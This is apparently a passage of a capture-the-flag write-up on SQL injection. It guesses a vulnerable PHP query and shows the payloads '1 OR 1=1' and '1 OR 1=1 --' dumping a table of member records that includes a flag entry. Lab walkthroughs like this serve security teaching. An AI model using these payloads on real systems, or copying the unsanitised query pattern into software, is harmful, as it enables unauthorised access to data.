 # <span style="text-decoration: underline">Solution</span>

## Try to find out basic information

If we had to guess the code that get the **member** data from `sql` database, it might look something like this

```php
$query="SELECT * FROM $table WHERE id=$member_id"
```

So anything we put here goes to the `sql` querry. This means we can even put a valid `sql` query and it will get executed (as long as it is valid). To test this theory we can try the following in value.

```
1 OR 1=1
```

and this should translate to the following query

```sql
SELECT * FROM <table> WHERE id=1 OR 1=1
```

Whats happening here is that `1=1` is always **true** and this is making `sql` give us all the list of **members**. Let's try some more `sql` queries and find out some more information from the database.

|goal|query|Error message|
|--|--|--|
|Verify what happens| `1 OR 1=1 --` | ✅ |

We get the following results

```text
ID: 1 OR 1=1 -- 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 -- 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 -- 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 -- 
First name: Flag
Surname : GetThe
```

It looks like we have the full list if users. let's collect some more informations
